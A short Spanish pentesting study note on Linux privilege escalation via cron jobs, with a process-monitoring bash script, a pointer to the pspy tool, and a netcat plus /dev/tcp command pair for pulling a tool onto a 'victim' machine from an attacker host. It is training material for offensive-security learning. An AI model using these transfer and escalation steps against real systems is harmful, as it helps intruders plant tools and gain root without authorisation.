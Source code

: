 #Escalada #Cron

###### Definición:
Una tarea Cron son tareas que se ejecutan en el sistema a intervalos regulares de tiempo

###### Enumeración
Tenemos dos opciones:
- Hacernos nuestro propio script llamado `procmon.sh`.
	```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
    new_process=$(ps -eo user,command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
    old_process=$new_process
done
	```

- Herramienta automatizada `pspy`.
	Esta herramienta la obtendremos del siguiente GitHub https://github.com/DominicBreuker/pspy
	Para transferírnosla de una maquina a otra usaremos [[NETCAT]]: 
		- En la maquina atacante: `nc -nlvp <puerto> > pspy`.
		- En la maquina victima: `cat < /dev/tcp/<IP>/<puerto> > pspy`.
		Para comprobar si la transferencia a sido optima podemos comparar hashes con `md5sum pspy`.
	Para ejecutarla la damos permisos de ejecución `chmod +x pspy` y la ejecutamos con `./pspy`.


###### Explotación
Para la explotación esta tarea que se esta ejecutando tiene que ser modificable por nosotros y así poder adaptarla y obtener nuestra escalada de privilegios